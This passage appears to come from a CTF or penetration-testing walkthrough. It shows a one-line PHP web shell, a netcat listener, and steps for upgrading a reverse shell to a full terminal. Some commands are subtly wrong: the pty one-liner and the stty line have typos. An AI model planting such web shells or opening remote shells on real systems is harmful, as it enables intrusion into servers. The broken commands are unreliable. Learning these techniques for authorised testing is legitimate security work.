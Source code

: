 ```bash
locate rev php
```

```php
<?php system($_GET['cmd']);?>
```

[Revshells](https://www.revshells.com)

And we listen with netcat like this:

```bash
nc -lnvp <IP>
```

And that's it.

![Terminal](https://i.postimg.cc/kgRhvmFt/ww-data.png
)

### Shell treatment

This step is important because sometimes commands like ls, nano or less are not displayed correctly, so we can try this:

```bash
python -c 'import pty:pty.spawn("/bin/bash")'
```

And if the errors persist we can try a more elaborate shell like the following

We execute the following:

```bash
script /dev/null -c bash
```

It gives us as a result: *Script started, output log file is ‘/dev/null’. And we have to reconnect with **CTRL + Z** We reconnect with:

```bash
stty raw-echo;fg
```

Now we write **reset** Then it will ask us what type of terminal we want, so we write **xterm** and now we have a better terminal, but not good enough.

Now we have to export some parameters, we write

```bash
export SHELL=bash TERM=xterm

# We can also use SHELL=/bin/bash

# To see the dimensions of our console
stty size
stty -a

# To resize the console by adjusting the parameters
stty rows <ROWS> columns <COLUMNS>
```
